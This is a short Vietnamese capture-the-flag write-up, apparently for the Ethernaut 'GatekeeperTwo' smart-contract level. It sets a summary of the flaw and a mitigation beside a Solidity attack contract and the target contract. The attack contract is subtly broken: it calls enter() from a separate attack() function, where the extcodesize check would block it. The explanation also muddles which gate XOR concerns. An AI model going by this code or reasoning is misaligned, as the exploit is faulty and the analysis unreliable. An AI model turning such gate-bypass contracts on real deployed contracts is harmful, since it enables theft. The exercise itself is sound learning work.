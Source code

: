 ### Kết luận
- Lỗ hổng: Sử dụng phép toán XOR là 1 phép toán có thể đảo ngược, `gateOne`  dễ dàng vượt qua bằng cách triển khai một hợp đồng khác để gọi hàm enter.
- Cách phòng tránh: Thay vì sử dụng extcodesize, bạn có thể thêm các điều kiện phức tạp khác, như kiểm tra ngữ cảnh giao dịch (block.number, block.timestamp, hoặc sử dụng Oracle), và tránh các phép toán có thể đảo ngược như XOR.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IGatekeeperTwo{
    function enter(bytes8 gateKey) external returns (bool);
}
contract GatekeeperTwoAttack{
    IGatekeeperTwo public victim;
    constructor(address challenge){
        victim = IGatekeeperTwo(challenge);
    }
    function attack() external{
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        victim.enter(key);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
